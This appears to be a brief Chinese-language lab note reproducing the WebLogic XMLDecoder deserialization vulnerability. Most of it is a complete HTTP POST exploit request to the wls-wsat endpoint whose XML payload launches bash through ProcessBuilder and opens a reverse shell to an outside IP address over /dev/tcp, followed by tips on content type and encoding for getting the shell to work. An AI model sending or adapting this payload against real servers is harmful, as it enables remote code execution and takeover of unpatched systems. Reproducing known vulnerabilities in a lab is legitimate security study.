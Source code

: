 # Weblogic-XMLDecoder漏洞复现

环境已经搭好了

exp

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.121.133:7001
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: text/xml;charset=UTF-8
Content-Length: 650

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>/bin/bash -i &gt; /dev/tcp/47.93.248.221/2333 2&lt;&amp;1 0&lt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

Content-Type要用text/xml

还有反弹shell这里可以会存在一些编码问题不然会报错

![image-20220507164152845](images/6.png)
